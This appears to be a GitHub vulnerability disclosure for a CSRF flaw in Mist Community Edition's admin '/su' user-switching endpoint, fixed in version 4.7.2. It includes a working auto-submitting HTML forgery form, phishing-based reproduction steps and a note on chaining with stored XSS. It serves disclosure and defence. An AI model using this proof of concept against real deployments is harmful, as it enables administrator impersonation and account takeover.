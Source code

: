 # Cross-Site Request Forgery (CSRF) in Admin's Switch User Operation

<table>
  <tr>
    <td width="150" rowspan="2">
      <a href="https://github.com/mistio/mist-ce" target="_blank">
        <img src="https://avatars.githubusercontent.com/u/1569127?s=200&v=4" alt="Summer Pearl Logo" width="120"/>
      </a>
    </td>
    <td>
      <h1>Mist Community Edition</h1>
      <h3> An Open-Source Multicloud Management Platform</h3>
    </td>
  </tr>
  <tr>
    <td>
      <table>
        <tr>
          <td>
            🔗 <a href="https://github.com/mistio/mist-ce" target="_blank">Mist Github Repository</span></a>
          </td>
          <td style="padding-left: 15px;">
            🚀 <a href="https://github.com/mistio/mist-ce/releases/tag/v4.7.2" target="_blank"> Patched Version (v4.7.2) </span></a>
          </td>
        </tr>
      </table>
    </td>
  </tr>
</table>

## 📜 Description
Mist Community Edition (CE) versions prior to 4.7.2 fail to implement CSRF protection for the administrator user-switching functionality ("/su" endpoint). This allows attackers to force administrators into unintended account contexts by visiting a malicious page. While the direct impact is limited to account impersonation, this vulnerability can be chained with other flaws (e.g., XSS) to escalate attacks. The issue was addressed in version 4.7.2.

## 🔍 Affected Versions

| Status       | Version         |
|--------------|-----------------|
| 🔴 Vulnerable |  ≤ `4.7.1`      |
| 🟢  Fixed     |  &nbsp;&nbsp;`4.7.2`      | 

## ⚠️ Disclaimer
This project is intended for **educational and ethical research purposes only**. Unauthorized testing on systems without explicit permission is illegal. Use responsibly and only on systems you own or have permission to test.

## 💻 Exploit Details

### 🔹 **CSRF Exploitation**
An attacker can exploit this vulnerability by phishing or tricking an administrator into visiting a malicious webpage. The crafted form sends a POST request to the vulnerable `/su?email=<user email>` endpoint, impersonating a specified user and performing actions on their behalf. This could lead to:
- **Unauthorized administrative actions**
- **Sensitive information disclosure**
- **Session hijacking**

### 🔹 **Chaining with Other Vulnerabilities**
This vulnerability can be combined with other weaknesses, such as the **Stored XSS** in the tag field, to further escalate attacks, potentially leading to **account takeover**.

## 🛠️ Steps to Reproduce

### 1️⃣ Craft Malicious HTML Form
Create a malicious HTML form designed to impersonate a specific user (e.g., `v@victim.com`). Here’s an example of the malicious form:
```html
<html>
  <body>
    <form action="http://192.168.1.5/su">
      <input type="hidden" name="email" value="v@victim.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState(‘’, ‘’, ‘/’);
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### 2️⃣ Send Malicious Form to Administrator
- The attacker sends this crafted page to an administrator (e.g., via phishing or other social engineering techniques).
  
### 3️⃣ Administrator Visits Malicious Page
- Upon visiting the page, the form automatically submits, and the administrator is tricked into performing a user switch, impersonating the attacker’s specified user.
  
### 4️⃣ Exploiting the Admin's Session
- The admin unknowingly executes the malicious request, performing actions on behalf of the impersonated user.

## 🎬 Demonstration Video
<a href="https://youtu.be/M3AQ67t3ths" target="_blank">
  <img src="https://img.youtube.com/vi/M3AQ67t3ths/maxresdefault.jpg" width="700" height="380"/>
</a>

## 🧑‍💻 Discovery

This vulnerability was discovered by **Alex Perrakis** (Stolichnayer).

## 🔗 References:
- [Mist CE Github Repository](https://github.com/mistio/mist-ce)
- [Patched Version (v4.7.2)](https://github.com/mistio/mist-ce/releases/tag/v4.7.2)
- [Fix Commit](https://github.com/mistio/mist.api/commit/db10ecb62ac832c1ed4924556d167efb9bc07fad)
